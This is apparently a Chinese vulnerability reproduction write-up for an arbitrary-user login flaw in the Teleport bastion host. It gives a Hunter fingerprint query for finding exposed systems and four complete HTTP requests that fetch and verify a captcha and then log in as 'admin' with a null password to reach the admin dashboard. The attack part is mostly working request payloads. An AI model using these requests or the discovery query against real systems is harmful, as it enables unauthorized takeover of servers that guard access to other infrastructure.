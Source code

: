 # Teleport堡垒机 do-login 任意用户登录漏洞

# 一、漏洞简介
Teleport堡垒机是一款简单易用的开源堡垒机系统，具有小巧、易用的特点，支持RDP/SSH/SFTP/Telnet协议的远程连接和审计管理。Teleport堡垒机存在任意用户登录漏洞，攻击者通过漏洞可以获取业务后台权限。

# 二、影响版本
+ Teleport堡垒机<= 20220817  


# 三、资产测绘
+ hunter`app.name="Teleport 堡垒机系统"`
+ 特征

![1700224400227-6b4b586e-6399-4e83-8cb6-7af26e9b2218.png](./img/W8kMt7wlSfRQcUAD/1700224400227-6b4b586e-6399-4e83-8cb6-7af26e9b2218-962775.png)

# 四、漏洞复现
1. 获取验证码

```plain
GET /auth/captcha?h=36&rnd=0.39124018049760567 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _sid=tp_1700221267_fbf3ff64ee297b12
```

![1700224435510-cba34aea-f31f-4e71-9451-e269543ab40d.png](./img/W8kMt7wlSfRQcUAD/1700224435510-cba34aea-f31f-4e71-9451-e269543ab40d-773404.png)

2. 使用上一步的`cookie`和获取到的验证码对红框中的参数进行相应替换，校验验证码

```plain
POST /auth/verify-captcha HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Connection: close
Cookie: _sid=tp_1700221267_fbf3ff64ee297b12

args={"captcha":"ckpa"}
```

![1700224521182-4598afce-46ee-488a-b40a-b37cb99f9605.png](./img/W8kMt7wlSfRQcUAD/1700224521182-4598afce-46ee-488a-b40a-b37cb99f9605-298334.png)

3. 使用校验后的验证码和`cookie`对红框中的参数进行相应替换，当响应`code`为`0`时表示存在漏洞！

```plain
POST /auth/do-login HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _sid=tp_1700221267_fbf3ff64ee297b12
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 94

args={"type":2,"username":"admin","password":null,"captcha":"ckpa","oath":"","remember":false}
```

![1700224596713-4717833e-361d-45ae-9429-ebbe5555683c.png](./img/W8kMt7wlSfRQcUAD/1700224596713-4717833e-361d-45ae-9429-ebbe5555683c-262748.png)

4. 使用上一步的`cookie`对红框中的参数进行相应替换，登录系统，获取管理员权限

```plain
GET /dashboard HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: _sid=tp_1700221267_fbf3ff64ee297b12
```

![1700224741128-1ec98d01-7787-4beb-8659-da182c4bd023.png](./img/W8kMt7wlSfRQcUAD/1700224741128-1ec98d01-7787-4beb-8659-da182c4bd023-330070.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/od1gvmdxp2ns8ze9>